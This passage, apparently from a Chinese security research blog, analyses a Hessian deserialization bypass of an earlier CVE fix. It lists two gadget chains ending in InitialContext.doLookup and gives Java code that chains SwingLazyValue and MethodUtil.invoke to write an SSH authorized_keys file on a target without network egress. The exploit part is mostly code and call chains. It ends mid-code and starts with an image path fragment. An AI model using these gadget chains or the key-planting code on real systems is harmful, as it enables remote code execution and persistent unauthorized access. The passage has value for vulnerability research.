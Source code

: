可以看到是可以攻击成功的。

```plain
TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XStringForFSB.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

就是 hessian 在序列化 Treemap 时会触发 compareTo。hessian 这里就不做分析。

还有一条是

```plain
TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.sound.sampled.AudioFileFormat.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

就换了一下中间的步骤。看 2023 的那个 cve 遇警搬掉的就是 javax.sound.sampled.AudioFileFormat。

也就是说这次的 2024 就是他的绕过呗。

**5.11.1 本人技术有限，暂没找到原生触发**。然后想到的利用方式就是 tostring 去触发 json 序列化。环境有 fastjson2，jackson。

### 0x05 扩展一下攻击面

SwingLazyValue.createValue 可以调用 sun.reflect.misc.MethodUtil.invoke 方法达到任意类的任意方法调用，那这就有意思了。(试了下，hessian3.x 好像不能用这个，4.x 可以，写了就留着吧)

#### 一、不出网就写文件

写 ssh

```plain
//            二、利用 JavaUtils.writeBytesToFilename 写文件
       byte[] allBytes = Files.readAllBytes(new File("/Users/snake/.ssh/authorized_keys").toPath());
        Constructor<?> JavaUtils = JavaUtils.class.getDeclaredConstructors()[0];
        JavaUtils.setAccessible(true);
       Object javaUtils = JavaUtils.newInstance();
        Method bytesToFilename = JavaUtils.class.getMethod("writeBytesToFilename", String.class, byte[].class);
       Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
       Object[] ags = new Object[]{invoke, new Object(), new Object[]{ bytesToFilename,javaUtils,new Object[]{ "/Users/snake/.ssh/authorized_keys1",allBytes}}};
            SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);
```
